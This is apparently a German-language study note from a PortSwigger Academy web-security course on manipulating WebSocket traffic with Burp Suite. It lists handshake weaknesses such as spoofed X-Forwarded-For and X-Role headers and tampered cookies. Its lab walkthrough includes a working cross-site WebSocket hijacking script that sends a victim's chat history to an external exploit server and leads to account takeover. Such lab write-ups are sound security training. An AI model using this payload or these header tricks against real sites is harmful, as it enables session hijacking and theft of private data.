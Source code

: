 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Manipulation von WebSocket Traffic (mit Burp Suite)

## Allgemein

Handshakes bestehen zwar aus standardisierten Protokollen, aber weil oft eigene Logik für zB App Anwendungen angefügt werden können dadurch diverse Schwachstellen entstehen.

## Typische Schwachstellen beim Handshake

1. **Blindes Vertrauen in HTTP-Header**
    - Beispiel: Server verlässt sich auf `X-Forwarded-For`, um die Client-IP zu bestimmen.
    - Angreifer kann im Handshake einfach `X-Forwarded-For: 127.0.0.1` setzen → Server denkt, die Anfrage kommt von `localhost`.
    - → Zugriff auf interne Admin-Funktionen.
        
2. **Fehler bei Session Handling**
    - Der Server koppelt die **Session** für den WebSocket an die Cookies/Token aus dem Handshake.
    - Wenn du im Burp den Cookie manipulierst, kannst du evtl. in eine fremde Session springen.
    - Oder: Session wird nicht erneuert, obwohl Tokens längst abgelaufen sein müssten.
        
3. **Benutzerdefinierte Header**
    - Manche Anwendungen fügen zusätzliche Header ins Handshake ein, z. B.:
        `X-Auth-Token: abc123 X-Role: user`
        
    - Wenn du die manipulierst (`X-Role: admin`), und der Server vertraut darauf → 💥 Privilege Escalation.

## 🖥️🧪Lab: Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.
To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.


1. Schauen wo Websocket verbindungen aufgebaut werden -> Live Chat
	- Abchecken wie der Live-Chat kommuniziert -> In Burp sehen wir in der WebSocket Historie, dass der alte Chat gespeichert wird über die Session und mit dem Befehl "READY" wird dieser geladen
2. Handshake prüfen (GET /chat) -> Hat kein CSRF Token
3. Exploit vorbereiten und auf externen Server laden und an Victim schicken

```js
<script>
    var ws = new WebSocket
    ('wss://0adb005c03827d38813f897b001100aa.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch
        ('https://exploit-0a9000ca03697d8a810088d101db00a1.exploit-server.net/exploit message='
        + btoa(event.data));
    };
</script>
```

4. Victim hat Session laufen, drückt auf den Link und die gesamte Chat-Historie wird gefetched und an den externen Server geschickt
5. Passwort im Chat -> Leak